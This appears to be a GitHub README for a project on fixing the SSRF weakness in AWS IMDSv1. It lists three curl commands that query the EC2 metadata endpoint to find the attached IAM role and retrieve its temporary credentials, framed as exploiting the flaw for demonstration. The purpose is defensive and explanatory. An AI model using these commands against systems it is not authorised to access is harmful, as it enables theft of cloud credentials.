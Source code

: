 # Project Summary
Demonstrates how to fix the Server Side Request Forgery Vulnerabilty in Instance Metadata Service Version 1.

# How to Use
As per my article, use the following process to exploit IMDSv1 on the EC2 instance.

- Run the following command to see the name of the role (if any) attached to the EC2 instance

`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/`

- We can store the output as an environment variable, in this case role_name

`role_name=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)`

- Finally, we can run a command to retrieve the credentials

`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$role_name`

# Notes
Ensure to update the variables to those for your AWS account.